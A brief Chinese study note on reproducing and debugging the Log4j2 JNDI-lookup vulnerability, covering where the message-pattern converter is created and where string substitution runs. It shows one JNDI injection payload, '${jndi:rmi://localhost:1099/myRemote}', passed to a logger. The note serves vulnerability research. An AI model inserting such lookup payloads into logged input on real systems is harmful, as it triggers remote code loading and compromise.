 1. 详见 su18 师傅的文章：

    > https://su18.org/post/log4j2/#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0

### 5.2 补充

1. “消息格式化”中，`MessagePatternConverter` 的创建，是在：
    ```java
    Logger logger = LogManager.getLogger();
    ```

    的过程中实例化。因此如果使用注解，debug 过程就没法看到其实例化过程。

2. 然后 `StrSubstitutor#replace` 的过程在：
    `logger.error("${jndi:rmi://localhost:1099/myRemote}", Log4j2.class);`。

3. todo `org.apache.logging.log4j.core.lookup.StrSubstitutor` 的执行逻辑。
